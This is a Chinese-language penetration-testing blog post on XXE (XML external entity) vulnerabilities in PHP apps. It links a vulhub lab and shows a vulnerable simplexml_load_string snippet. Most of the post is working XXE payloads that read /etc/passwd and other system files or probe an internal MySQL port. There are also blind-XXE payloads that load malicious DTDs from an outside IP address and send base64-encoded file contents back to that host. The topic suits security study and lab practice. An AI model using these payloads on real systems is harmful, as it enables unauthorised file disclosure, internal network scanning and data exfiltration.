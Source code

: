```yaml
---
draft: false
date: 2017-12-09 23:02:22
title: XXE 漏洞
description: XXE 漏洞是针对使用 XML 交互的 Web 应用程序的攻击方法
categories:
  - Pentest
tags:
  - xml
---
```


### 0x00 XXE
XML文件作为配置文件(spring、Struts2等)、文档结构说明文件(PDF、RSS等)、图片格式文件(SVG header)应用比较广泛

外部引用时可能会出现XXE漏洞，XXE漏洞是针对使用XML交互的Web应用程序的攻击方法

### 0x01 示例代码
实验环境：[https://github.com/vulhub/vulhub/tree/master/php/php_xxe](https://github.com/vulhub/vulhub/tree/master/php/php_xxe?_blank)  
simplexml_load_string.php
```
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
```

### 0x02 判断是否有xxe漏洞
![95](/img/post/20180906-110942.png)

### 0x03 读取文件
* 外部引用读取passwd

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

* 外部引用dtd文件读取passwd

evil.dtd中的内容为：```<!ENTITY b SYSTEM "file:///etc/passwd">```
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
  <!ELEMENT name ANY >
  <!ENTITY % xxe SYSTEM "http://114.115.183.86/evil.dtd">
  %xxe;
]>
<root>
  <name>&b;</name>
</root>
```

### 0x04 端口探测
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
  <!ENTITY http SYSTEM 'http://10.11.11.20:3306/'>
]>
<root>
  <name>&http;</name>
</root>
```

### 0x05 Blind-XXE
* 方法一：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.dtd">
    %remote;
]>
```
evil.dtd内容：
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/issue">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://114.115.183.86/?%file;'>">
%all;
%send;
```

* 方法二：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.xml">
    %remote;   <!--引用remote来将外部文件evil.xml引入到解释上下文中-->
    %xxe;   <!--执行%xxe，这时会检测到send实体，然后在root节点中引用send，就可以成功实现数据转发-->
]>
<root>&send;</root>
```
evil.xml内容：
```
<!ENTITY % xxe "<!ENTITY send SYSTEM 'http://114.115.183.86/a.php?content=%file;'>">
```



#### Reference(侵删)：
* [http://blog.csdn.net/u011721501/article/details/43775691](http://blog.csdn.net/u011721501/article/details/43775691?_blank)
* [https://security.tencent.com/index.php/blog/msg/69](https://security.tencent.com/index.php/blog/msg/69?_blank)
